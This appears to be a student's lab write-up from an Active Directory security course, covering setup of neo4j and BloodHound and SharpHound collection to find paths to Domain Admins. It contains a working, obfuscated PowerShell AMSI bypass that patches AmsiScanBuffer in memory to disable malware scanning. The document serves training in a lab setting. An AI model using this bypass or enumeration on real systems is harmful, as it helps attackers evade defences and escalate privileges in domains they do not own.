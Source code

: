 # 🐩 BloodHound, Identify Paths

I start by unziping the file C:\AD\Tools\neo4j-community-4.1.1- windows.zip

then i started the neo4j server like this:

```
.\neo4j.bat install-service
.\neo4j.bat start
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I get on this page with simple password neo4j:neo4j

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now i launch bloodhound via the following path (C:\AD\Tools\BloodHound-win32-x64\BloodHound-win32-x64) and enter the credentials that i set&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I then open my terminal and using invisishell and do the following

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
cd C:\AD\Tools\BloodHound-master\BloodHound-master\Collectors
```

Then i'm going to copy and paste this code snip in my terminal to bypass .NET AMSI before running SharpHound.ps1:

<pre><code><strong>$ZQCUW = @"
</strong>using System;
using System.Runtime.InteropServices;
public class ZQCUW {
 [DllImport("kernel32")]
 public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
 [DllImport("kernel32")]
 public static extern IntPtr LoadLibrary(string name);
 [DllImport("kernel32")]
 public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ =
[ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#x26;#97;&#x26;#109;&#x26;#115;&#x26;#105;&#x26;#46;&#x26;#100;&#x26;#108;&#x26;#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ,
"$([systeM.neT.webUtility]::HtMldECoDE('&#x26;#65;&#x26;#109;&#x26;#115;&#x26;#105;&#x26;#83;&#x26;#99;&#x26;#97;&#x26;#110;&#x26;#66;&#x26;#117;&#x26;#102;&#x26;#102;&#x26;#101;&#x26;#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
</code></pre>

Then we can simply run sharphound

```
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can upload the JSON files to get a visual render with the GUI.&#x20;

I can look for myself:

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

In Node Info, scroll down to 'LOCAL ADMIN RIGHTS' and expand 'Derivative Local Admin Rights' to find if student613 has derivate local admin rights on any machine!

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Theres an issue with GUI so this screenshot is from course content</p></figcaption></figure>

To complete the task we go on the Web UI of bloodhound provided by the course, login with the creds and follow with this methodology:

n the Web UI, click on Cypher -> Click on the Folder Icon -> Pre-Built Searches -> Active Directory -> (Scroll down) -> Shortest paths to Domain Admins

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

